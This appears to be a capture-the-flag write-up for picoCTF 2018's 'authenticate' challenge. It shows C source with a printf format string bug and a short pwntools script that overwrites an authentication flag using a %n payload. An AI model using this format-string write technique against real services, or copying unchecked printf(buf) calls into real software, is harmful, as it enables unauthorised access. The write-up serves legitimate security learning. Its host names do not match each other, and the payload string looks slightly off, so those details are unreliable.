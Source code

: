 authenticate - Points: 350
===========

## Description

> Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 43438

## Hint:

> *  What happens if you say something OTHER than yes or no?

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

## Useful Information

Format String Bug :
> * printf(buf);

If authenticated != 0 we get flag :exclamation: 

## Exploit

**REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

**Write a new value for authenticated with the Format String Bug :**

```python
#!/usr/bin/python2.7
from pwn import *

rem = remote("2018shell3.picoctf.com",43438)
rem.recv(4096)
aut_adr=0x804a04c

rem.sendline(p32(aut_adr)+"%%11$n")
rem.interactive()

```
